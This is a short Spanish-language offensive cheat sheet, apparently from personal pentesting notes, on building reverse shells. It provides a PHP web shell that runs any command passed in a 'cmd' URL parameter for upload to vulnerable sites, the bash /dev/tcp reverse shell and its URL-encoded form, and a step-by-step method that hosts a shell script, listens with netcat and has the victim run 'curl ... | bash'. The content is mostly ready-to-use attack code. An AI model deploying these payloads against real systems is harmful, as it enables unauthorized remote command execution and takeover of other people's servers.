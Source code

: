 ```yaml
---
icon: arrows-rotate-reverse
---
```


# Reversing Shell's (Creación)

### Crear parametro cmd para ejecutar codigo en URL (PHP)

Para crear un `payload` en `php` que te cree una funcion llamada `cmd` y que al ejecutar cualquier comando con el parametro `cmd` te lo muestre de forma limpia y ordenada, craendo el siguiente contenido...

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Esto si lo subimos de forma maliciosa a cualquier pagina vulnerable o login vulnerable a ello o cualquier otro sitio que interprete codigo `php` podremos hacer lo siguiente...

```
http://example.com/example_uploads/<NAME_FILE>.php?cmd=<COMMAND>
```

### Hacer una `Reverse Shell` mediante un parametro URL o en una ejecuccion de comandos

La `Reverse Shell` mas tipica es la siguiente...

```shell
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

Si por ejemplo se esta haciendo mediante una `URL` por si acaso lo `URL Encodearemos` de la siguiente manera...

```shell
bash -c "bash -i >%26 /dev/tcp/<IP>/<PORT> 0>%261"
```

```
%20 = <ESPACIO>

%26 = &
```

Si esto no funcionara habra que mirar en la siguiente pagina de ``Reverse Shell`s`` donde se pueden ver muchas...

URL = https://www.revshells.com

### Hacer `Reverse Shell` con curl

Esta tecnica es la que mas suele funcionar al intentar vulnerar maquinas con `Reverse Shell's` mediante `curl`, si por ejemplo tenemos una shell interactiva en la que podemos inyectar comandos en una pagina web ya sea por terminal o por `URL` y que tenga instalado `curl` podremos hacer lo siguiente para saber que tiene la herramienta instalada...

```shell
curl http://<IP_HOST>/test
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...

```shell
python3 -m http.server 80
```

Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell...
